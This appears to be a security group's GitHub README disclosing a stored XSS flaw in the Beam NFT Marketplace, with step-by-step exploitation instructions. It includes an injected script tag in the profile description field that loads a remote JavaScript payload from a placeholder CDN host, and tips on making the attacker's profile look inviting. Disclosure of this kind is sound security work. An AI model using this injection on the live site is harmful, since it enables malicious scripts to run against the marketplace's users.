 <div align="center">
  <img title="" src="images/prismsec.png" alt="PrismSec logo" data-align="center" width="400">
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link abouve to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to the [The Beam NFT Marketplace](https://beamnft.art/) and and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>;
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  <img title="" src="images/description.png" alt="PrismSec logo" data-align="center">
  </br>
</div>
